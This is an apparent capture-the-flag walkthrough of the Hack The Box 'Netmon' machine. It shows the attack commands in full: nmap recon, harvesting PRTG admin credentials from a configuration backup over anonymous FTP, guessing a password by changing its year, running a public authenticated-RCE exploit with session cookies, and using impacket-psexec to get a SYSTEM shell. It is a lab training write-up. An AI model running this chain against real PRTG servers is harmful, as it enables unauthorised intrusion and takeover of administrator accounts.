








|  | Difficulty |  |  IP Address   |  | Room Link |  |
|:-| :--------: |--|:------------: |--| :--------:|--|
|  |  Easy |  | 10.10.10.152 |  | [Netmon](https://app.hackthebox.com/machines/netmon) |  |

---

### Reconnaissance
Perform **Nmap** scan to enumerate ports:

```shell
sudo nmap -sC -sV -vv -Pn -p- -T4 -o full_nmap 10.10.10.152
```

**Results:**

```
PORT      STATE    SERVICE      REASON                              VERSION
21/tcp    open     ftp          syn-ack ttl 127                     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_02-25-19  11:49PM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open     http         syn-ack ttl 127                     Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-favicon: Unknown favicon MD5: 36B3EF286FA4BEFBB797A0966B456479
|_http-trane-info: Problem with XML parsing of /evox/about
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
135/tcp   open     msrpc        syn-ack ttl 127                     Microsoft Windows RPC
139/tcp   open     netbios-ssn  syn-ack ttl 127                     Microsoft Windows netbios-ssn
445/tcp   open     microsoft-ds syn-ack ttl 127                     Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp  open     http         syn-ack ttl 127                     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
...
47001/tcp open     http         syn-ack ttl 127                     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open     msrpc        syn-ack ttl 127                     Microsoft Windows RPC
49665/tcp open     msrpc        syn-ack ttl 127                     Microsoft Windows RPC
49666/tcp open     msrpc        syn-ack ttl 127                     Microsoft Windows RPC
49667/tcp open     msrpc        syn-ack ttl 127                     Microsoft Windows RPC
49668/tcp open     msrpc        syn-ack ttl 127                     Microsoft Windows RPC
49669/tcp open     msrpc        syn-ack ttl 127                     Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

From our nmap scan, we see that notable ports open are: **21 (FTP)**, **80 (HTTP)** and **139 & 445 (SMB)**. We also discover that the target machine is a **Windows** machine.

---
### HTTP Web Server Enumeration
Visiting the HTTP web server, we are greeted with a login page to the **PRTG Network Monitor (NETMON)** service: 



Doing some research online, I discovered that the default credentials for this service was **ptgradmin/ptgradmin**. Unfortunately, this credentials did not work. I also tried various other common login credentials like **admin/admin**, but they did not work as well.

Next, I searched on exploit-db for any exploits that I could use, eventually discovering an [Authenticated RCE Exploit](https://www.exploit-db.com/exploits/46527) that would allow us to create a privileged user on the target machine. 

However, it looks like we still need to find a valid set of credentials before we can use the aforementioned exploit.

---
### Exposed Credentials via FTP Anonymous Access
Moving on, I decided to enumerate the FTP server, discovering that **anonymous login** was enabled: 



Listing the current directory, I realised that we were actually in the **C:\\** directory:



From my research online, I came across this [article](https://kb.paessler.com/en/topic/463-how-and-where-does-prtg-store-its-data), which tells us that the data directory for PTGR is actually located in:

```
C:\ProgramData\Paessler\PRTG Network Monitor
```

What's important to note is that our FTP client does not actually display hidden files/directories, which explains why we do not see the **ProgramData** directory in the screenshot above. 

Regardless, we can navigate directly to the data directory:



The file that interested me was **'PRTG Configuration.old.bak'** as it seemed to be a backup file. I downloaded the file to my local machine (after setting the FTP client to Binary mode) and looked through its contents, eventually coming across the password to the administrator account:



```
prtgadmin:PrTg@dmin2018
```

Unfortunately, I was unable to log in with the discovered password. Looking at how the password was structured, I thought of varying the password by changing the year. Luckily, I was able to log in with the password set to:

```
PrTg@dmin2019
```

And we're in:



---
### Authenticated RCE (PRTG Netmon)
Now that we have a valid set of credentials, we can proceed to use the exploit that we discovered earlier.

The exploit requires us to input the cookies given to us when we logged in. It will then create a new user called **pentest** (pass: **P3nT3st**) and add it to the Administrators group on the target machine.

After obtaining the cookies, I ran the exploit like so:

```shell
./46527.sh -u http://10.10.10.152 -c "_ga=GA1.4.1830820239.1664592237; _gid=GA1.4.747938210.1664592237; OCTOPUS1813713946=ezY3QzZGRjk1LUMwQUEtNDcyNi1CRTM2LTZERjNBMEJDOEU2OX0%3D"
```



With that, we successfully created an administrator user on the target machine which we can log into.

Since **SMB** was running on the target, I logged into our **pentest** user using **impacket-psexec**:

```
impacket-psexec "./pentest:P3nT3st\!"@10.10.10.152
```



We have now obtained a SYSTEM-level shell on the target machine. We can then obtain the user and root flags from their respective directories.